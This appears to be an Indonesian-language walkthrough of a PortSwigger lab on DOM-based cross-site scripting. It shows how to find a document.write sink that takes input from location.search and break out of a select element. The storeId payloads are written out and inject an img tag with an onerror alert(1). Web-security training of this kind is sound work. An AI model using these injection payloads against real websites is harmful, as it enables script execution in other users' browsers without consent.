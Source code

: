 # Cross-site scripting (XSS)

## DOM XSS in document.write sink using source location.search inside a select element
- Celah keamanan berada di halaman detail produk
- Klik tombol **View details**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%201.JPG)

- Klik kanan halaman kemudian pilih **Lihat Kode Sumber Halaman**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%202.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%203.jpg)

- Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%204.JPG)

- Sekarang kita coba tambahkan parameter `storeId` pada URL kemudian tekan enter

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%205.JPG)

- Akan muncul list sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%206.jpg)

- Masukkan payload berikut pada URL kemudian tekan enter
```sh
&storeId="></select><img%20src=1%20onerror=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%207.JPG)

- Selain payload diatas, anda juga bisa menggunakan payload dibawah ini
```sh
&storeId=</option></select><img%20src=1%20onerror=alert(1)>
```
- Payload diatas akan membentuk nilai sebagai berikut, sehingga menyebabkan kerentanan XSS
```sh
<select name="storeId"><option selected="">storeId="></option></select>
<img src="1" onerror="alert(1)">
```